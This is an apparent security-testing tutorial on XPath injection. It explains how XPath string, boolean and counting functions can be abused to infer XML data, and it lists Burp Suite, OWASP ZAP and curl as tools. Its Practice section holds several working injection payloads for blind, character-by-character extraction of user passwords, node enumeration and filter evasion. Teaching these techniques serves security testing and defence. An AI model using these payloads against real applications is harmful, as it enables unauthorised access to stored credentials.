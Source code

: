 ```yaml
---
title: Exploit XPath Functions for XML Data Extraction
description: Learn to exploit XPath functions for extracting and manipulating XML
  data using injection techniques.
keywords:
- XPath functions
- XML data extraction
- XPath injection
- web application exploits
- substring function
- contains function
- normalize-space
- security testing
---
```


# XPath Functions Exploitation

## Context

The purpose of this article is to demonstrate practical exploitation of XPath functions to extract, infer, or manipulate XML data via injection. This discussion assumes you have a working knowledge of XPath syntax, XML structure, web application architecture, and XPath Injection techniques. 

## Theory

### Abusing XPath Functions in Injection Contexts

XPath functions are designed to process, filter, or transform XML data within queries. When an application exposes user input to XPath queries without proper sanitization, it becomes vulnerable to function-based exploitation. By crafting malicious queries, attackers can manipulate the query logic to leak or infer sensitive data stored in XML documents.

### Key XPath Functions for Exploitation

- **contains(), starts-with(), ends-with()**: These functions are used to test for the presence of specific strings or prefixes/suffixes within targeted data.
- **normalize-space(), translate()**: These functions help in bypassing filters or normalizing data extracted from XML documents.
- **concat()**: This function joins multiple strings, which can be useful for constructing complex payloads.
- **count(), position()**: These functions allow enumeration of nodes or infer the structure of the XML.
- **string-length(), substring(), substring-before(), substring-after()**: Utilized for character-by-character data extraction, these functions can be crucial for understanding the structure and content of the XML data.

### Function-Based Data Extraction Logic

- Use boolean functions to infer data through true/false query responses.
- Employ string manipulation functions to extract specific characters or substrings, piece by piece.
- Combine different functions to bypass input validation or obfuscate injected payloads, hiding them from simple detection measures.

## Practice

### Extracting Data with contains() and substring()

To infer sensitive information such as passwords, you can use the `contains()` and `substring()` functions to ask the system specific queries about its content:

- Use the following XPath payload to check if the password of the first user contains the letter 'a':
  ```xpath
  ' or contains(/users/user[1]/password,'a') or '1'='0
  ```
- Use this extraction method to check if a particular character is at the start of a password:
  ```xpath
  ' or substring(/users/user[1]/password,1,1)='a' or '1'='0
  ```

When successful, these queries allow you to infer password contents character by character based on true/false responses from the application.

### Bypassing Filters with normalize-space() and translate()

With `normalize-space()` and `translate()`, attackers can adjust input data to pass validation filters:

- Normalize the username input to remove excess whitespace:
  ```xpath
  ' or normalize-space(/users/user[1]/username)='admin' or '1'='0
  ```
- Translate uppercase to lowercase to force a case-insensitive match:
  ```xpath
  ' or translate(/users/user[1]/username,'ABCDEFGHIJKLMNOPQRSTUVWXYZ','abcdefghijklmnopqrstuvwxyz')='admin' or '1'='0
  ```

Implementing these queries can help in bypassing input validation restrictions, thus aiding successful injection attempts.

### Enumerating Nodes with count() and position()

These functions are invaluable for discovering the number and arrangement of nodes within the XML structure:

- Confirm if there are two user nodes in the system:
  ```xpath
  ' or count(/users/user)=2 or '1'='0
  ```
- Target the first node starkly:
  ```xpath
  ' or /users/user[position()=1] or '1'='0
  ```

Employing these methods can uncover structural vulnerabilities and help craft more refined attack strategies.

### Combining concat() and substring() for Obfuscated Extraction

By utilizing `concat()` and `substring()`, an attacker can extract multiple characters at once, thus forming complex queries:

- Fetch and verify the first two characters together:
  ```xpath
  ' or concat(substring(/users/user[1]/password,1,1),substring(/users/user[1]/password,2,1))='ab' or '1'='0
  ```

This technique enables extracting multiple characters through concatenated comparison, potentially bypassing naive detection filters focused on simpler patterns.

## Tools

- **Burp Suite**
- **OWASP ZAP**
- **curl** 

These tools assist in constructing, testing, and automating XPath function-based exploitations.